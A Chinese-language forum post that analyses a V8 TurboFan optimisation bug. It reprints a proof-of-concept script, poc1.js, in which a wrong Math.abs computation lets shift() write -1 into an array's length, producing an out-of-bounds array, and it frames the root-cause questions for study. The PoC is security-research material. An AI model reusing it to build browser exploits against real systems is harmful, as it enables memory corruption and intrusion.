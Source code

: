 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-267529.htm)

紧接着前文：https://bbs.pediy.com/thread-267128-1.htm#1687388

这里将前文的 poc.js 命名为 poc1.js，因为这篇文章会有其他该 poc 的简单变种。

poc1.js 为：

```
const _arr = new Uint32Array([2**31]);
function foo() {
    var x = 1; 
       x = (_arr[0] ^ 0) + 1; 
  
       x = Math.abs(x); //前文在这里发现了x计算的错误
       x -= 2147483647;
       x = Math.max(x, 0); 
       x -= 1;//
       if(x==-1) x = 0; 
       var cor = new Array(x);
       cor.shift();//前文这里发现了将-1写进代表长度的内存
       var arr = [1.1, 1.2, 1.3];
  
       return [cor, arr];
}
console.log("ready !!");
for(i=0;i<0x3000;i++)
{
      foo();
}
%SystemBreak();
var x = foo();
var cor=x[0];
var arr=x[1];
%DebugPrint(corr);
%DebugPrint(arr);
console.log("Analyze Over!") ;

```

通过前面对 v8 优化 poc1.js 后生成指令的逆向分析，我们知道要了解这个漏洞的原因可以分解为以下两个问题：

第一：为什么 v8 对 poc1.js 进行优化后生成的指令，对 x 计算会出现错误，使得随后可以获得长度为 1 的有效数组对象 var cor = new Array(x)。(前面文章，我们通过逆向分析 v8 对 poc1.js 进行优化后生成的指令的过程，是在 x = Math.abs(x); 这一条代码语句对应的指令执行中发现了 x 计算错误)。

第二：为什么在 v8 对 poc1.js 进行优化后, 数组对象 cor.shift() 操作后会直接写入 0xFFFFFFFE 到代表其数组对象长度的内存位置。

**写在前面：**

1：v8 优化的漏洞利用的核心就是获得可以越界读写的数组。

2：v8 优化的漏洞不能直接通过二进制逆向分析寻找漏洞的真正原因，是因为最后能调试的指令只是优化的结果生成的指令，而不是优化的本身，优化的本身是如何生成这些优化指令。所幸 google 提供了 turbofan 工具来分析 v8 优化的各个过程。

3：v8 运行 poc1.js 加上参数 --trace-turbo 会生成一个.json 文件的，这个.json 文件会记录优化的各个阶段，我们使用 turbofan 工具时打开该.json 文件时，看到的图表只会显示某个优化过程的部分节点。

